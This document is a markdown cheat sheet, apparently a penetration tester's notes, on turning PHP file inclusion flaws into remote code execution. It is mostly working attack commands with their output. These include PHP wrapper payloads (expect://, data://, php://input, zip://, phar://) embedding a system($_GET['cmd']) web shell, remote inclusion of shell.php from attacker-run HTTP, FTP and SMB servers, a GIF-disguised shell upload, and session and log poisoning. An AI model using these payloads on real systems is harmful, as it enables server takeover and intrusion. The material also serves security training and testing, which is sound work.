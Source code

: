 ## file Inclusion methods and bypass

- [File Inclusion Methods and bypass](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)

## files to include

- [Server configurations wordlist for Linux](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux)
- [Server configurations wordlist for Windows](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Windows)
-  [LFI Wordlists](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI)
- web directory conf files like (conf.php , .env files)

## Remote Code Execution

### PHP wrappers 
  

#### Wrapper expect://   `require Expect extension`
```bash
curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
=> uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

#### Wrapper data://   `require allow_url_include on`
```http
http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=

NOTE: the payload is "<?php system($_GET['cmd']);echo 'Shell done !'; ?>"
```

#### Wrapper input://        `require allow_url_include on`
```bash
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid

=> uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

#### Wrapper php://filter
[synacktiv/php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator)



### Remote File Inclusion  `require the allow_url_include`

### HTTP

```bash
$ sudo python3 -m http.server <LISTENING_PORT>
=> Serving HTTP on 0.0.0.0 port <LISTENING_PORT> (http://0.0.0.0:<LISTENING_PORT>/) ...
```


```bash
curl 'http://<SERVER_IP>:<PORT>/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id'
...SNIP...
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### FTP 

```bash
$ sudo python -m pyftpdlib -p 21

[SNIP] >>> starting FTP server on 0.0.0.0:21, pid=23686 <<<
[SNIP] concurrency model: async
[SNIP] masquerade (NAT) address: None
[SNIP] passive ports: None
```


```bash
curl 'http://<SERVER_IP>:<PORT>/index.php?language=ftp://user:pass@localhost/shell.php&cmd=id'
...SNIP...
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


### SMP  `do not need the allow_url_include`

```bash
impacket-smbserver -smb2support share $(pwd)
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

```bash
$ curl 'http://<SERVER_IP>:<PORT>/index.php?language=\\<OUR_IP>\share\shell.php&cmd=id'
...SNIP...
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

**Note** : this technique is **more likely to work if we were on the same network**, as accessing remote SMB servers over the internet may be disabled by default, depending on the Windows server configurations.


### Chain LFI & File Upload

#### Image Upload
```bash
$ echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```

```bash
$ curl 'http://<SERVER_IP>:<PORT>/index.php?language=./profile_images/shell.gif&cmd=id'
...SNIP...
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

#### Zip Upload (using  Wrappers  zlib:// bzip2://  zip://)
```bash
$ echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
```

```bash
$ curl 'http://<SERVER_IP>:<PORT>/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id'
...SNIP...
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

#### Phar Upload

```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```

```bash
$ php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```

```bash
$ curl 'http://<SERVER_IP>:<PORT>/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id'
...SNIP...
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


### Log Poisoning

#### PHP Session Poisoning

- if php site using language paramter language
```url
http://<SERVER_IP>:<PORT>/index.php?language=en.php
```
- session is stored in  `/var/lib/php/sessions/sess_SessionValue`
```bash
curl 'http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd'

=> selected_language|s:6:"en.php";preference|s:7:"English";
```
- check if you can control any value in the session 
- assume selected_language is contolable
```bash
curl 'http://<SERVER_IP>:<PORT>/index.php?language=<?php system($_GET["cmd"]);?>'
```

```bash
curl 'http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id'
...SNIP...
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


#### Server Log Poisoning

##### inject these then include log files

##### User-Agent Header
- `Apache` and `Nginx` maintain various log files, such as `access.log` and `error.log`. The `access.log`
- `/proc/self/environ`  or `/proc/self/fd/N`

##### username to PHP code
- ftp `/var/log/vsftpd.log`
- ssh  `/var/log/sshd.log`

##### email containing PHP code
- mail services  `/var/log/mail`


## File Inclusion Functions

| **Function** | **Read Content** | **Execute** | **Remote URL** |
| ----- | :-----: | :-----: | :-----: |
| **PHP** |
| `include()`/`include_once()` | ✅ | ✅ | ✅ |
| `require()`/`require_once()` | ✅ | ✅ | ❌ |
| `file_get_contents()` | ✅ | ❌ | ✅ |
| `fopen()`/`file()` | ✅ | ❌ | ❌ |
| **NodeJS** |
| `fs.readFile()` | ✅ | ❌ | ❌ |
| `fs.sendFile()` | ✅ | ❌ | ❌ |
| `res.render()` | ✅ | ✅ | ❌ |
| **Java** |
| `include` | ✅ | ❌ | ❌ |
| `import` | ✅ | ✅ | ✅ |
| **.NET** | |
| `@Html.Partial()` | ✅ | ❌ | ❌ |
| `@Html.RemotePartial()` | ✅ | ❌ | ✅ |
| `Response.WriteFile()` | ✅ | ❌ | ❌ |
| `include` | ✅ | ✅ | ✅ |









